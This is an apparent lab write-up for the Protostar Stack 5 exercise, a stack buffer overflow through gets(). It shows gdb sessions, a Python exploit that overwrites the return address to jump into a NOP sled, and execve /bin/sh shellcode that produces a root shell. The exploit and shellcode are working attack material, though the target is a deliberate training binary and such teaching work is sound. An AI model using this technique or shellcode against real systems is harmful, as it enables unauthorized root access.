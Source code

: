 # PROTOSTAR : STACK 5
[Protostar:Stack5](https://exploit.education/protostar/stack-five/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The program takes command line input and there is a **buffer** variable which we can overflow since it takes input in vulnerable **gets()** function. But after overflowing the **buffer** where would we go? unlike the previous challenge there is **no win() function** so we need to return to a **stack address** and place our **shellcode** to get **ROOT SHELL**.

Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) 
```

Now lets find the padding required to overwrite the **instrution pointer** and modify the return address of the program.
<br>
**Padding = 76** to overwrite **eip** register.
<br>
If you observe the **esp** register, it denotes the stack address to which the **eip** returns to. Now this address is random so we can take the help of **NOP SLED** and check whether we can run **assembler code**.
```
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/2x $ebp
0x41414141:     Cannot access memory at address 0x41414141
(gdb) x/i $eip
0x80483da <main+22>:    ret    
(gdb) si
Cannot access memory at address 0x41414145
(gdb) i r
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xb7eadc00       0xb7eadc00 <__libc_start_main+112>
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```
#### **PYTHON SCRIPT**
```py                                   
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

trap = "\xCC"*4

print(padding + ret + nop + trap)

```

The **\xCC** instruction causes **SIGTRAP** which interupts the execution of the program. It is usually generated when the CPU hits a **breakpoint**. Below is the program output based on the python script.
<br>
Now that we know assembler code is running lets replace with a **shellcode**.
```
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff825 in ?? ()
(gdb) 
```

This is the shellcode for linux /bin/sh shell 22 bytes. **struct pack** is to convert the address to bytes.

```py
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + nop + shellcode)
```

Just piping the program output to ./stack5 won't work the shell needs an input to so **cat** command is used.
We got the root shell.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack5
whoami
root
```